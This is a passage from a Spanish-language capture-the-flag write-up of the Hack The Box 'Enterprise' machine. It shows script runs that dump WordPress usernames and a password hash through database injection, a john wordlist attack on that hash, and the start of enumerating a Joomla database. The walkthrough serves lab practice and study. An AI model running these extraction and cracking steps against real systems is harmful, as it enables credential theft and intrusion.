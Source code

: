 ```bash
❭ python3 ex_information.py wp_users user_login
[+] Info columna user_login - tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: william.riker

k3Ep br3ak1n6 4anYyyu...

```

```bash
❭ python3 ex_information.py wp_users user_pass
[+] Info columna user_pass - tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.

k3Ep br3ak1n6 4anYyyu...

```

Solo hay un registro, el usuario `william.riker` (que habíamos descubierto antes) y la contraseña encriptada `$P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.`...

Perfecto, pues antes de seguir con las demás bases de datos, intentemos crackear ese hash, lo guardamos en un archivo y ejecutamos **john** o **hashcat**:

* [Example hashes - Wiki Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes).

```bash
❭ john --wordlist=/usr/share/wordlists/rockyou.txt william_hash 
```

Pero se queda un bueeeeeen rato intentando crackear el hash, hasta llegar al final del archivo e indicarnos que no ha sido crackeado :( Entonces sigamos profundizando entre las otras bases de datos.

...

**Creamos un script (completo y con varios cambios) que contenga todas las extracciones, asi es muuuucho más fácil de movernos entre bases de datos, tablas y columnas ;P**

> [ex_all.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/enterprise/ex_all.py)

...

Veamos la base de datos **joomla**:

```bash
❭ python3 ex_all.py joomla
[+] Extrayendo tablas de la base de datos joomla: d0Ne
[+] Payload: d0Ne
------------------------------------------·

```

Está vacía, juguemos entonces con la base de datos **joomladb** (que si revisamos nuestro escaneo de `nmap`, nos indicaba que el puerto **8080** está sirviendo un CMS **Joomla**):
